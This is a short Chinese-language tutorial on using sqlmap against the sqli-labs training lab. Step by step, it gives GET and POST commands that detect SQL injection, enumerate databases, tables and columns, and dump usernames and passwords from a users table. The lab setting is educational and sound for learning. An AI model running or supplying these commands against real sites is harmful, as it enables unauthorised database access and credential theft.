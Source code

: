 # sqlmap入门使用

## GET请求方式

**以sqli-labs第1关为例：**

地址栏里面的路径就是请求的链接

假设请求链接为：http://193.168.10.26/Less-2/?id=2

使用sqlmap尝试能不能SQL注入：

```shell
sqlmap.py -u "http://193.168.10.26/Less-2/?id=2" --batch
```

`--batch` 是指：不询问用户输入，使用所有默认配置



在运行结果里可以看到使用的**数据库类型**和**几个可以注入的点**

尝试获取所有数据库：`sqlmap.py -u url --dbs --batch`

```shell
sqlmap.py -u "http://193.168.10.26/Less-2/?id=2" --dbs --batch
```



获取当前数据库：`sqlmap.py -u url --current-db --batch`

```shell
sqlmap.py -u "http://193.168.10.26/Less-2/?id=2" --current-db --batch
```



获取数据库中的表：`sqlmap.py -u url -D DB --tables --batch`

```shell
sqlmap.py -u "http://193.168.10.26/Less-2/?id=2" -D security --tables --batch
```



获取表中的列：`sqlmap.py -u url -D DB -T TBL --columns --batch`

```shell
sqlmap.py -u "http://193.168.10.26/Less-2/?id=2" -D security -T users --columns --batch
```



获取列中的数据：`sqlmap.py -u url -D DB -T TBL -C COL --dump --batch`

```shell
sqlmap.py -u "http://193.168.10.26/Less-2/?id=2" -D security -T users -C "id,username,password" --dump --batch
```

<br>

## POST请求方式

post与get方式区别不大

**以sqli-labs第11关为例：**

先抓包查看请求：

```
请求地址：http://193.168.10.26/Less-11/
参数：uname=abc&passwd=cba
```



和get请求类似，构造sqlmap命令

```shell
sqlmap.py -u "http://193.168.10.26/Less-11/" --method=POST --data="uname=abc&passwd=cba" --dbs --batch
```

以上命令和get请求的区别就在于： `--data` 和 `--method` 部分，其余的和get方式一样

同理，可以构造一个爆库的命令：

```shell
sqlmap.py -u "http://193.168.10.26/Less-11/" --method=POST --data="uname=abc&passwd=cba" -D security -T users -C "id,username,password" --dump --batch
```


